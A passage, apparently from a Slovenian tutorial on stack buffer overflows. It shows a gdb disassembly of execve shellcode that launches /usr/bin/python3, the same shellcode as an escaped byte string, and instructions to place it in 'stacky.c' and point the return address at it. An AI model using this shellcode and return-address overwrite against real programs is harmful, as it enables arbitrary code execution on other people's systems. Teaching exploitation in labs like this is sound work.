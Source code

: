     0x0000000000001125 <+0>:	push   %rbp 

    0x0000000000001126 <+1>:	mov    %rsp,%rbp 

    0x0000000000001129 <+4>:	sub    $0x10,%rsp 

    0x000000000000112d <+8>:	mov    %edi,-0x4(%rbp) 

    0x0000000000001130 <+11>:	mov    %rsi,-0x10(%rbp) 

    0x0000000000001134 <+15>:	mov    $0x0,%edx 

    0x0000000000001139 <+20>:	mov    $0x0,%esi 

    0x000000000000113e <+25>:	jmp    0x114e <main+41> 

    0x0000000000001140 <+27>:	pop    %rdi 

    0x0000000000001141 <+28>:	xor    %rsi,%rsi 

    0x0000000000001144 <+31>:	xor    %rdx,%rdx 

    0x0000000000001147 <+34>:	xor    %rax,%rax 

    0x000000000000114a <+37>:	mov    $0x3b,%al 

    0x000000000000114c <+39>:	syscall  

    0x000000000000114e <+41>:	call   0x1140 <main+27> 

    0x0000000000001153 <+46>:	(bad)   

    0x0000000000001154 <+47>:	jne    0x11c9 <__libc_csu_init+89> 

    0x0000000000001156 <+49>:	jb     0x1187 <__libc_csu_init+23> 

    0x0000000000001158 <+51>:	(bad)   

    0x0000000000001159 <+52>:	imul   $0x68747970,0x2f(%rsi),%ebp 

    0x0000000000001160 <+59>:	outsl  %ds:(%rsi),(%dx) 

    0x0000000000001161 <+60>:	outsb  %ds:(%rsi),(%dx) 

    0x0000000000001162 <+61>:	xor    (%rax),%eax 

    0x0000000000001164 <+63>:	mov    $0x0,%eax 

    0x0000000000001169 <+68>:	leave   

    0x000000000000116a <+69>:	ret     

    End of assembler dump. 

    (gdb) p (char*)0x000000000000113e 

    $1 = 0x113e <main+25> "\353\016_H1\366H1\322H1\300\260;\017\005\350\355\377\377\377/usr/bin/python3"

Niz našega programa `\353\016_H1\366H1\322H1\300\260;\017\005\350\355\377\377\377/usr/bin/python3` dodamo v `stacky.c` in za vrnitveni naslov nastavimo začetek našega niza v programu.

    nano stacky.c

    #include <stdio.h>
